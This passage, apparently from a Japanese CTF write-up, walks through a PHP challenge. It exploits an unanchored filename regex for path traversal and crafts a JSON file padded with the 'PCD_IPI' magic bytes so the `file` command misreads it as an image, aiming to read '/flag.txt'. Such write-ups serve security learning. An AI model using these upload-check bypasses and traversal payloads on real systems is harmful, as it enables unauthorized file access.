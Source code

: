 ```php
if (!preg_match('/\w{5,10}\.\w{3,5}/', $pageName)) {
    echo "<p>Invalid page name ):</p>";
    exit();
}
```

以上より、`administration.php`にアップロードする際に、`$_POST["name"]`が`../xxxxx`にすると、`/var/www/html/xxx.magic`にアップロードされる。また、`/\w{5,10}\.\w{3,5}/`の正規表現は`^`や<code>$</code>のチェックが無いためファイル名のどこかに`\w{5,10}\.\w{3,5}`にマッチする箇所があれば良い。したがって、`$_GET["page"]`を`../xxxxx.magic`にすることにより、そのファイルを読み取ることができる。(`/var/www/html/rebuild/`には権限の問題でアップロードできないので、代わりに`/var/www/html/`にアップロードした。)

次に、`file`コマンドのチェックをバイパスする方法を考える。

`file`コマンドのソースコードを読み、画像と判別される[マジックナンバー](https://ja.wikipedia.org/wiki/%E3%83%9E%E3%82%B8%E3%83%83%E3%82%AF%E3%83%8A%E3%83%B3%E3%83%90%E3%83%BC_(%E3%83%95%E3%82%A9%E3%83%BC%E3%83%9E%E3%83%83%E3%83%88%E8%AD%98%E5%88%A5%E5%AD%90))のうち、JSONの中に記載できそうなものを探す。そうすると、「[Kodak Photo CD image pack file](https://github.com/file/file/blob/dcb4d1620b493c15dbb199e5ce93c0848addd26e/magic/Magdir/images#L1431)」のマジックナンバーが2048バイトの位置に`PCD_IPI`であることがわかる。

```
2048	string		PCD_IPI		Kodak Photo CD image pack file
>0xe02	ubyte&0x03	0x00		, landscape mode
>0xe02	ubyte&0x03	0x01		, portrait mode
>0xe02	ubyte&0x03	0x02		, landscape mode
>0xe02	ubyte&0x03	0x03		, portrait mode
```

次のファイルを試してみる。

```python:test.py
file = b"""{"sections": [{"type": "link", "tag": "i", "value":  "/flag.txt", "x": "a"""
file += (b"x" * (2048 - len(file))) + b'PCD_IPI"}]}'
open("test", "wb").write(file)
os.system("file -b test")
```

これは優先順位の関係で、JSONとして判定されてしまう。
```
$ python test.py
JSON text data
```

以下のコードにより、JSONとして評価される前に`\`が取り除かれることがわかる。

```php
$sanitized = str_replace("\\", "", $pageString);
```

したがって、適当な位置に`\`を挿入してJSONとしては無効になれば、代わりにKodak Photo CD image pack fileとして判定されるかもしれない。

```python:test.py
file = b"""\\{"sections": [{"type": "link", "tag": "i", "value":  "/flag.txt", "x": "a"""
file += (b"x" * (2048 - len(file))) + b'PCD_IPI"}]}'
open("test", "wb").write(file)
os.system("file -b test")
```

実験してみると、無事にKodak Photo CD image pack fileとして判定された。
```
$ python test.py
Kodak Photo CD image pack file
```

